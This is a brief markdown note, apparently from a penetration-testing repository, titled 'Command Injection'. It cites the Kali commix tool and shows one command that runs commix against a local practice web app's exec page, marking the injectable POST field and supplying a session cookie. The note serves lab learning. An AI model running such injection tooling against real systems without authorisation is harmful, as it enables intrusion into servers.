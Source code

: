 Command Injection
=
- source: https://tools.kali.org/exploitation-tools/commix
```
root@speit-PowerEdge-T430:/home/speit/Downloads/commix-2.1-20171003# python commix.py --url http://192.168.5.100/vulnerabilities/exec/ --data="ip=INJECT_HERE&Submit=Submit" --cookie="security=low; PHPSESSID=upjio7inblkt07rte0eagcg045"
```
